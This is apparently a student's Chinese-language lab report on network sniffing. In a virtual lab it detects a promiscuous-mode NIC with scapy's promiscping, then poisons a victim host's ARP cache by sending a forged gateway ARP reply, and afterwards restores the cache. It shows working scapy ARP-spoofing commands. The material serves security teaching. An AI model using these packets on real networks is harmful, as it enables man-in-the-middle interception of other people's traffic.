# 实验四 网络监听
## 网络拓扑图：

1. 网关ip地址和mac地址如下：
   
   - ip:172.16.111.1
2. 攻击者ip地址和mac地址如下：
   
   - ip:172.16.111.115
3. 受害者主机ip地址和mac地址如下：
   
   - ip:172.16.111.121

## 实验前环境配置
在攻击者主机上提前安装好 scapy 
`sudo apt update && sudo apt install python3 python3-pip`

`pip3 install scapy[complete]`


## 实验步骤
### 实验一：检测局域网中的异常终端
在受害者主机上检查网卡的「混杂模式」是否启用
`ip link show enp0s3`


​ 在攻击者主机上进入scapy，并在 scapy 的交互式终端输入以下代码回车执行
`pkt = promiscping("172.16.111.101")`
结果如下


​ 显然这是错误的，查阅资料得知此操作需要root权限，退出scapy并sudo scapy进入，重新键入代码得到结果：


回到受害者主机上开启网卡的『混杂模式』

注意上述输出结果里应该没有出现 PROMISC 字符串

手动开启该网卡的「混杂模式」

`sudo ip link set enp0s3 promisc on`

此时会发现输出结果里多出来了 PROMISC 
`p link show enp0s3`
```
enp0s3: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:aa:ff:3e brd ff:ff:ff:ff:ff:ff
```
回到攻击者主机上的 scapy 交互式终端继续执行命令,观察两次命令的输出结果差异
`pkt = promiscping("192.168.0.102")`
结果如下
```
>>> pkt = promiscping("172.16.111.121")
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
```
在受害者主机上,手动关闭该网卡的「混杂模式」
`sudo ip link set enp0s3 promisc off`

### 实验二：手工单步“毒化”目标主机的 ARP 缓存
以下代码在攻击者主机上的 scapy 交互式终端完成。
```
获取当前局域网的网关 MAC 地址
构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
```
查看构造好的 ARP 请求报文详情
arpbroadcast.show()
结果如下：


发送这个 ARP 广播请求
`recved = srp(arpbroadcast, timeout=2)`


网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

伪造网关的 ARP 响应包

准备发送给受害者主机 172.16.111.121

ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
`arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.121", hwdst="08:00:27:70:6a:d9")`


发送上述伪造的 ARP 响应数据包到受害者主机
`sendp(arpspoofed)`

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址


回到攻击者主机上的 scapy 交互式终端继续执行命令。

恢复受害者主机的 ARP 缓存记录

伪装网关给受害者发送 ARP 响应

```
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:2a:4b:04", pdst="172.16.111.121", hwdst="08:00:27:aa:ff:3e")
sendp(restorepkt1, count=100, inter=0.2)
```

此时在受害者主机上准备“刷新”网关 ARP 记录。

在受害者主机上尝试 ping 网关

`ping 172.16.111.1`

静候几秒 ARP 缓存刷新成功，退出 ping

查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
`ip neigh`